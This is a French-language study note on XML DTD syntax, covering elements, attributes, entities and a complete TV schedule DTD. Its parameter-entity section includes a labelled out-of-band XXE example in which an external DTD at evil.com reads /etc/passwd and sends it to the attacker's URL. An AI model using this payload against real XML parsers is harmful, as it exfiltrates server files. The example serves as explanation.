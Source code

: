 # XML DTD

* DTD pour _Document Type Definition_
* Définis la structure que devrait avoir un document xml
* On spécifie le DTD avant le premier noeud \(hors description\) dans un élément `<!DOCTYPE>` \(qui n'a pas de `/` fermante\)
  * Déclaration dans le fichier `<!DOCTYPE root_name [...]>`
  * Inclusion d'un fichier externe `<!DOCTYPE root_name SYSTEM "file">`

### Elément

On décrit un élément ainsi

```markup
<!ELEMENT element-name EMPTY>
<!ELEMENT element-name ANY>
<!ELEMENT element-name (#PCDATA)>
<!ELEMENT element-name (child1)>
<!ELEMENT element-name (child1, child2, ...)>
```

* `#PCDATA` \(_Parsed Character Data_\) signifie que ces données seront interprêtées par le parser à l'inverse des `#CDATA` \(_Character Data_\)
* Les enfants doivent se retrouver dans le même ordre dans le document xml
* Tous les enfants spécifiés doivent être déclarés \(décrits\) dans le fichier DTD
* Certains symbole ajoute des restrictions :

```markup
<!ELEMENT note (message)> <!-- Uniquement 1 enfant nommé message -->
<!ELEMENT note (message+)> <!-- 1 ou plusieurs enfants nommés message -->
<!ELEMENT element-name (message*)> <!-- 0 ou plus enfants nommés message -->
<!ELEMENT element-name (message?)> <!-- 0 or 1 enfant nommé message -->
<!ELEMENT note (to,from,header,(message|body))> <!-- to, from header obligatoire, puis soit message soit body -->
```

### Attributs

On décrit un attribut ainsi :

```markup
<!ATTLIST element_name attribute_name attribute_type attribute_value>
```

Type acceptés :

| Type | Définition |
| :--- | :--- |
| CDATA | Character data |
| \(val1\|val2\|..\) | One from the enumerated list |
| \(val1\|val2\|..\) "val1" | One from the enumerated list,                                                    defaulting to the specified one |
| ID | Unique id |
| IDREF | Id of another element |
| IDREFS | List of other ids |
| NMTOKEN | Valid XML name |
| NMTOKENS | List of valid XML names |
| ENTITY | Entity |
| ENTITIES | List of entities |
| NOTATION | Name of a notation |
| xml: | Predefined xml value |

Valeur acceptées :

| Valeur | Définition |
| :--- | :--- |
| value | The default value of the attribute |
| \#REQUIRED | The attribute is required |
| \#IMPLIED | The attribute is optional |
| \#FIXED value | The attribute value is fixed |

### Entity

L'équivalent de variable, peuvent contenir une valeur donnée ou load le contenu d'un fichier \(local ou depuis un lien\). Ce second cas est ce qu'on appelle une entité externe.

```markup
<!DOCTYPE test [
    <!ENTITY entity_name1 "entity-value">
    <!ENTITY entity_name2 SYSTEM "URI/URL">
]>
<test>&entity_name1;</test>
```

#### Parameter Entity

Elles permettent 2 choses :

* Etre référencées directement dans le DTD
* Référencer une autre entité dans leur valeur \(uniquement possible si elles sont en externe\)

L'exemple qui suit sert à une attaque mais montre bien l'idée :

```markup
<!-- test.xml-->
<?xml version="1.0" encoding="UTF-8 ?>
<!DOCTYPE test SYSTEM "http://evil.com/external.dtd">
<test>&send;</test>

<!-- external.dtd -->
    <!ENTITY % file_content SYSTEM "/etc/passwd">
    <!ENTITY % wrapper "<!ENTITY send 'http://evil.com/?%file_content;'>">
    %wrapper;
```

### Example Complet

```markup
<!DOCTYPE TVSCHEDULE [

<!ELEMENT TVSCHEDULE (CHANNEL+)>
<!ELEMENT CHANNEL (BANNER,DAY+)>
<!ELEMENT BANNER (#PCDATA)>
<!ELEMENT DAY (DATE,(HOLIDAY|PROGRAMSLOT+)+)>
<!ELEMENT HOLIDAY (#PCDATA)>
<!ELEMENT DATE (#PCDATA)>
<!ELEMENT PROGRAMSLOT (TIME,TITLE,DESCRIPTION?)>
<!ELEMENT TIME (#PCDATA)>
<!ELEMENT TITLE (#PCDATA)> 
<!ELEMENT DESCRIPTION (#PCDATA)>

<!ATTLIST TVSCHEDULE NAME CDATA #REQUIRED>
<!ATTLIST CHANNEL CHAN CDATA #REQUIRED>
<!ATTLIST PROGRAMSLOT VTR CDATA #IMPLIED>
<!ATTLIST TITLE RATING CDATA #IMPLIED>
<!ATTLIST TITLE LANGUAGE CDATA #IMPLIED>
]>
```
